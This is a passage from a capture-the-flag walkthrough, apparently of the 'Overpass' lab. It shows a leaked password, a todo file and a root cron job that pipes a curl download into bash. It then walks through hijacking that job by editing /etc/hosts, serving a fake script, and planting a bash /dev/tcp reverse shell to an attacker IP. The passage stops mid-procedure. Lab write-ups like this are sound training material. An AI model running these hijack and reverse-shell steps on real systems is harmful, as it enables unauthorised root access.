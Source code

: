 Here is the result: `[{"name":"System","pass":"saydrawnlyingpicture"}]`.

Let's see what's `todo.txt` file.

```bash
james@overpass-prod:~$ cat todo.txt
To Do:
> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
  Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
  They're not updating on the website
```

Checking crontab.

```bash
james@overpass-prod:~$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

There is one script that run `buildscript.sh` as root. It used `overpass.thm`. We can modify james `hosts` file to set the IP to our local machine and send `fake` script. Let's do it.
- Add this line to `/etc/hosts` at the **james machine**.

    ```
    james@overpass-prod:~$ nano /etc/hosts

    10.11.25.205    overpass.thm
    ```

- Set up our local server.

    ```bash
    $ sudo python3 -m http.server 80
    ```

- Create the directory and the reverse shell script, using `bash -c 'exec bash -i &>/dev/tcp/10.11.25.205/9999 <&1'`.
